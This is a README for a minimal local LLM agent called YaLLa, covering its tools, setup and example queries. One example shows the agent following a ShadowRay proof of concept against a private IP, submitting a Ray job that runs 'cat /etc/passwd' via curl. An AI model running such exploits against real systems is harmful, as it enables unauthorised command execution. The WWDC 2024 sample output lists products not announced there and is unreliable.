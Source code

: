 # Yet Another LLM Agent (YaLLa)
A tiny LLM Agent with minimal dependencies, focused on local inference.<br>
This agent was introduces in a [LangTalks Webinar](https://www.youtube.com/watch?v=BYExD2j_7SY) (30 minutes, Hebrew).
<br>
<br>
<!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**  *generated with [DocToc](https://github.com/thlorenz/doctoc)*

- [Tools](#tools)
- [Uses OpenAI API specification](#uses-openai-api-specification)
- [Get Started](#get-started)
- [Run the agent completely on device with Ollama](#run-the-agent-completely-on-device-with-ollama)
- [Run the agent using ChatGPT and OpenAI](#run-the-agent-using-chatgpt-and-openai)
- [Examples](#examples)
    - [Run ShadowRay on a given IP address based on a GIST example payload](#run-shadowray-on-a-given-ip-address-based-on-a-gist-example-payload)
- [Execution logs and history](#execution-logs-and-history)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

## Tools

1. **ubuntu_terminal:** Runs bash commands inside Ubuntu temporary container via `docker`.
2. **web_browser:** Accesses websites or search free text, to retrieve the inner text content and links. Uses `selenium` by default. can also use Jina AI's free browsing APIs.
3. **llm_query:** Communicate with the large language model.
4. **create_text_file:** Creates a text file inside the container.
5. **open_api:** Interacts with an OpenAPI service to fetch data or perform operations.

## Uses OpenAI API specification
- Local
  - <a href="https://ollama.com/">Ollama</a>
  - <a href="https://github.com/ggerganov/llama.cpp/server">llama.cpp</a>
- OpenAI
  - ```shell
    export OPENAI_API_KEY="sk-..."
    ```

## Get Started
**Clone:**
```shell
git clone https://github.com/avilum/yalla.git && cd yalla
```
**Install:**
```shell
python3 -m pip install -r requirements.txt
```
**Run:**
```shell
# helper function
function agent(){
  python3.11 agent.py $*
}

agent --help
```

## Run the agent completely on device with Ollama
1. Run ollama
```shell
ollama pull gemma2 && ollama serve
```
2. Run the agent with `--local`
```shell
agent --local --planner gemma2 --executor gemma2 --query "What happened to donald trump?"
agent --local --planner gemma2 --executor phi3 --query "Who acquired Deci AI"
agent --local --verbose --query "Create a fastapi app and run it in on port 8082." --steps 7
agent --query 'open_api: {"url": "https://api.example.com/data", "method": "GET"}'
```
## Run the agent using ChatGPT and OpenAI
1. Set the OpenAI API Key:
```shell
export OPENAI_API_KEY="sk-..."
```
2. Run the agent
```shell
agent --query "Who acquired Deci AI"
agent --planner gpt-4o --executor gpt-3.5-turbo --verbose --query "What are the top trending models on huggingface from last week?"
```
## Examples
Input:
```shell
agent --local --planner="gemma2:27b" --executor="gemma2" --query "What is the latest blog post by brendan gregg"
```
Output:
```text
The latest blog post by Brendan Gregg is titled "No More Blue Fridays" and was published on July 22, 2024.
You can find it at: /blog/2024-07-22/no-more-blue-fridays.html
```
---
#### Run ShadowRay on a given IP address based on a GIST example payload
Input:
```shell
agent --query "Follow the POC at https://gist.githubusercontent.com/avioligo/edde6aed604b4ec077a3505dfaa6f384/raw/2c6dcbfe2ee87aa21efa5db83c99b688689ef6e1/gistfile1.txt and run the example on IP 192.168.2.168 on port 8265 and return the Job ID and the command that was run "
```
Output:
```text
The command that was run is:

curl -X POST http://192.168.2.168:8265/api/jobs/ -H 'Content-Type: application/json' -d '{"entrypoint": "cat /etc/passwd", "runtime_env": {}, "job_id": null, "metadata": {"job_submission_id": "1"}}'

The Job ID returned is: **raysubmit_FdzLfdynrzsGgj64**.
```
---
Input:
```shell
agent --local --planner gemma2 --executor gemma2 --query "Who acquired Deci AI?"
```
Output:
```text
Nvidia acquired Deci AI for $300 million.
```
---
Input:
```shell
agent --local --planner gemma2 --executor gemma2 --query "What happened to donald trump"
```
Output:
```text
Based on the provided information from CNN and The New York Times, former President Donald Trump was involved in a shooting at a rally in Butler, Pennsylvania on July 13, 2024.

He was reportedly rushed off stage with blood on his ear and face. While the Secret Service confirmed he is safe, details about the incident and the shooter are still emerging.

It's important to note that information about this event is rapidly developing and may change. To get the most up-to-date information, it's best to refer to reliable news sources.
```
---
Input:
```shell
agent --local --planner="gemma2" --executor="gemma2" --query "Tell me about Avi Lumelsky from Oligo and about his researches"
```
Output:
```text
Avi Lumelsky is a security researcher at Oligo.

He is actively involved in researching and raising awareness about vulnerabilities in popular AI frameworks, particularly the Ray AI framework.  His work has been featured in prominent tech publications like TechTarget, Security Boulevard, The Register, and VentureBeat.

Lumelsky's research has highlighted critical vulnerabilities that can be exploited to gain control of AI workloads, compute resources, and sensitive data. He is a recognized speaker at cybersecurity conferences like BSidesBUD, where he shares his findings and insights with the broader security community.


You can find more information about Avi Lumelsky and his work on his LinkedIn profile and in the articles listed in the provided context.
```
---
Input:
```shell
agent --local --planner gemma2 --executor gemma2 --query "What are the trending models on huggingface right now?"
```
Output:
```text
Here are some of the trending models on HuggingFace right now, across various categories like text generation, image generation, and question answering:

* **Text Generation:**
    * Qwen2-72B-Instruct
    * Mixtral-8x7B-Instruct-v0.1
    * Gemma-2-9b-it
    * Gemma-2-27b-it
* **Image Generation:**
    * Stable Diffusion XL-Base 1.0
    * Kolors
    * AuraFlow
    * Stable Diffusion 3-Medium
* **Other:**
    * Microsoft's Florence-2-large (Image-Text-to-Text)
    * OpenAI's Whisper-large-v3 (Automatic Speech Recognition)

Keep in mind that trends change rapidly!  You can explore the full list and sort by popularity on the HuggingFace website.
```
---
Input:
```shell
agent --query "What are the new products in WWDC 2024"
```
Output:
```text
At WWDC 2024, several new products and features were announced. Key highlights include:

1. **iOS 18**: Major updates and new features that enhance user experience.
2. **macOS Sequoia**: A new operating system for Mac devices, promising better performance and features.
3. **Apple Intelligence**: A suite of AI tools introduced to improve functionality across products, including a new feature to create custom emojis called Genmoji.
4. **New Devices**: Introduction of the iPhone 16 and Apple Watch Series 10, with enhancements in hardware and advanced technologies to improve usability.
5. **AirPods 4**: Updated audio technology and features to enhance user experience.

These announcements reflect Apple’s commitment to innovation, with a strong focus on AI and enhancing user interactivity across its product lineup.
```
---
## Execution logs and history
By default all the runs will be logged to the `.runs/` directory.<br>

More examples can be found at the <a href="examples/">/examples</a> folder.
